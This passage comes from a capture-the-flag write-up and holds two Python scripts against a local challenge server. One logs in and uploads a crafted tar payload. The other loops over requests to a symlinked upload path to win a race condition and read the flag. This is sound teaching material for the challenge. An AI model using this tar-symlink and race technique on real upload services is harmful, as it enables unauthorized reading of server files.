 Tip on how to make a large (100mb) file: `dd if=/dev/urandom of=bigfile.txt bs=1048576 count=100`

Onto the solution. First, here is the code I use to upload our tar file:
```python
import requests
import tarfile

SERVER_ADDR = "http://127.0.0.1:5000" # change this to whatever the docker is running at

def get_cookie():
    data = {
        "username": "test", # make this user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

with open('payload.tar', 'rb') as f:
    r = requests.post(url=SERVER_ADDR + "/upload", files={"file": ('payload.tar', f)}, cookies=cookie)
```

Here is the code for the race condition win:
```python
import requests
import threading

SERVER_ADDR = "http://127.0.0.1:5000" # change this to whatever the docker is running at

def get_cookie():
    data = {
        "username": "test", # make this user first
        "password": "test" 
    }

    req = requests.post(SERVER_ADDR+"/login", data=data)
    cookiejar = req.history[0].cookies
    cookie = cookiejar.get_dict()['session']

    return cookie

cookie = {"session": get_cookie()}

while True:
    r = requests.get(url=f"{SERVER_ADDR}/upload/payload/link.file", allow_redirects=True, cookies=cookie)
    if "PCTF" in r.text:
        print(r.text)
        break
```
